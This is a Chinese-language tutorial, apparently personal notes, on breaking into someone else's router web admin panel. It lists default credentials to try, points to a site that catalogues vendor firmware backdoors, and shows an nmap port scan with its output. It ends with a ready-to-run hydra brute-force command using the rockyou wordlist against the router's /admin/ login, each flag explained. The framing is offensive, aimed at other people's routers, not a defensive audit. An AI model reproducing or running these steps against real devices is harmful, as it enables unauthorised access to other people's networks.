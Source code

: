     成功连接到对方路由后，下面我需要做的就是连接路由的 WEB 管理界面
    首先尝试路由器的默认登录密码!!! 本文就是直接用123456 登录进去了..

    就算对方改了路由器默认登录密码.还是有办法的!!!
    不少路由器厂家.为了后期维护方便.在管理固件中留下后门!! 我们可以利用
    http://routerpwn.com/     这个网站去找对应的路由器品牌.本文不深入这个..



    字典暴力破解 很有效. 一般设置这个都是非常常用的密码.
    暴力破解 最好确定对方的用户名..  不然组合太多了.



    🔸 端口扫描工具 查找路由器的网页端口.

        一.扫描路由器端口为了路由器的安全，网管通常都会将路由器的默认端口(80)给更改掉，
        所以我们破解路由器密码的第一步就是必须要找到路由器的wEB管理端口。 　　
        如果路由器上的UPnP(通用即插即用，是一组协议的统称)功能是开启的(通常路由器默认情况下UPnP都是开启的)，
        那么路由器一定会开放一个1900端口。 有这个端口的 那肯定就是路由器了.

        一般肯定是80端口的.
        ✘✘∙𝒗 Desktop nmap 192.168.11.1
            Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-05-05 08:12 CST
            Nmap scan report for 192.168.11.1
            Host is up (0.0033s latency).
            Not shown: 998 filtered ports
            PORT     STATE SERVICE
            80/tcp   open  http
            1900/tcp open  upnp


    🔸 简单破解:
        一般要破解两个东西. 用户名 和 密码.
        个别路由器只要破解一个密码就可以了. 如水星的.. 直接输入123456 就进去了....


        (1)管理员帐号密码是出厂值，就直接试下几个常用初始帐号密码。
        例如：“admin、admin";"root、root";"user、user";“admin、password”，
        但如果是管理员用户名和密码已经修改过了，那就要去破解了。


    🔸 暴力破解.
        参考 hydra.txt   这个可以爆破 ssh、mysql、web登录页面 等等...

        hydra -s 80 -l admin -P /root/Desktop/rockyou.txt 192.168.11.2 http-get /admin/
                -s 80 是指定目标端口.
                -l admin 指定用admin 做对方账户.
                -P /root/Desktop/rockyou.txt 指定密码字典. 会尝试里面的每一个密码.
                http-get   目标的攻击方法.
                /admin/    这个必须有. 原因未知!!!!!

                一般几分钟就能跑出来密码.









